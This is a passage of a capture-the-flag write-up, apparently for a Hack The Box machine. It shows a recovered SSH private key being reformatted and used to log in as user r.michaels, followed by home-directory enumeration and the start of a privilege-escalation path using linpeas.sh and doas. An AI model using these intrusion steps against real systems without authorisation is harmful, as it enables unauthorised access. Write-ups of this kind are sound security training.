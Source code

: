 ```bash
chmod 600 id_rsa
ssh-keygen -p -m PEM -f ./id_rsa
Key has comment 'r.michaels@luanne.htb'
Enter new passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved with the new passphrase.
```

Whit this key, the access using `r.michaels` was possible and we could obtain the user flag.

```bash
ssh -i id_rsa r.michaels@10.10.10.218
The authenticity of host '10.10.10.218 (10.10.10.218)' can't be established.
ECDSA key fingerprint is SHA256:KB1gw0t+80YeM3PEDp7AjlTqJUN+gdyWKXoCrXn7AZo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.218' (ECDSA) to the list of known hosts.
Last login: Sat Feb 20 07:14:11 2021 from 10.10.14.33
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020
  
Welcome to NetBSD!
  
luanne$ id && pwd && ls -la
uid=1000(r.michaels) gid=100(users) groups=100(users)
/home/r.michaels
total 52
dr-xr-x--- 7 r.michaels users 512 Sep 16 18:20 .
drwxr-xr-x 3 root wheel 512 Sep 14 06:46 ..
-rw-r--r-- 1 r.michaels users 1772 Feb 14 2020 .cshrc
drwx------ 2 r.michaels users 512 Sep 14 17:16 .gnupg
-rw-r--r-- 1 r.michaels users 431 Feb 14 2020 .login
-rw-r--r-- 1 r.michaels users 265 Feb 14 2020 .logout
-rw-r--r-- 1 r.michaels users 1498 Feb 14 2020 .profile
-rw-r--r-- 1 r.michaels users 166 Feb 14 2020 .shrc
dr-x------ 2 r.michaels users 512 Sep 16 16:51 .ssh
dr-xr-xr-x 2 r.michaels users 512 Nov 24 09:26 backups
dr-xr-x--- 4 r.michaels users 512 Sep 16 15:02 devel
dr-x------ 2 r.michaels users 512 Sep 16 16:52 public_html
-r-------- 1 r.michaels users 33 Sep 16 17:16 user.txt
luanne$ cat user.txt
<redacted>
```

## Root flag

At `r.michaels`\`s  home directory, we have noticed an folder called backup, containing an encrypted file **devel_backup-2020-09-16.tar.gz.enc**. To decrypt it we'll need a passoword or key, depending on the way it was initially encrypted.

Executing `linpeas.sh` as this user I have found some interesting information that will help us to find the path for `root`:

- User r.michaels has **doas** privileges. This is equivalent as the `sudo`group in the other distributions that permits running tasks as `root`;
